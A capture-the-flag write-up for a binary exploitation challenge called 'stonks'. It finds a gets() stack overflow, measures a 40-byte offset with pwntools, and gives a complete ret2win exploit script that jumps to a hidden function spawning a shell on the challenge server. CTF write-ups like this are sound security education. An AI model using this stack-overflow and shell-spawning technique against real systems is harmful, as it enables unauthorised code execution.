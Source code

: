 ![](https://i.imgur.com/Xthi7zA.png)

* after disassembling :

![](https://i.imgur.com/sUMBjXD.png)

* vuln function disassembled :

![](https://i.imgur.com/u5piK7j.png)

* gets is used, lets calculate the offset at which it crashes :

```python
from pwn import *

p = process("./chal")
p.sendline(cyclic(200, n=8)) # n -> architecture | 8 -> 64bit
p.wait()

core = p.corefile
offset = cyclic_find(core.read(core.rsp, 8), n=8)
print(offset)
```

OUTPUT :

![](https://i.imgur.com/QLOSyKX.png)

* offset is 40

* finding all functions :

```
info functions
```

![](https://i.imgur.com/0WKx65a.png)

* when we checked `ai_debug` we found that it has a system call!

![](https://i.imgur.com/ONyEGVn.png)

* then we checked what its doing :

```
b main
run
jump ai_debug
```

OUTPUT :

![](https://i.imgur.com/PIRlX9z.png)

* it is executing `/usr/bin/dash` so we can get a shell if we can call ai_debug function

* Address of ai_debug :

![](https://i.imgur.com/GNc8x6K.png)

Exploit :

```python
#!/usr/bin/python3

from pwn import *

host = 'stonks.hsc.tf'
port = 1337
offset = 40
addr = 0x401258
ret = 0x4012f3

junk = b'A' * offset
le_num = p64(addr)
le_ret = p64(ret)
buffer = junk + le_ret + le_num

conn = remote(host, port)
conn.recvuntil('symbol:')
conn.sendline(buffer)
conn.interactive()
```

* Return address has been added because there is a stack alignment issue caused by LIBC present in Ubuntu i.e. the container running on the target

* Exploit was working locally but not remotely so we found this reddit thread

* https://www.reddit.com/r/securityCTF/comments/nbb5z2/buffer_overflow_works_fine_locally_but_not/

* Thanks to [Andr3](https://github.com/AndreaCarosi-7) and hiatus!

OUTPUT :

![](https://i.imgur.com/FN6LiSU.png)

### Flag

```
flag{to_the_moon}
```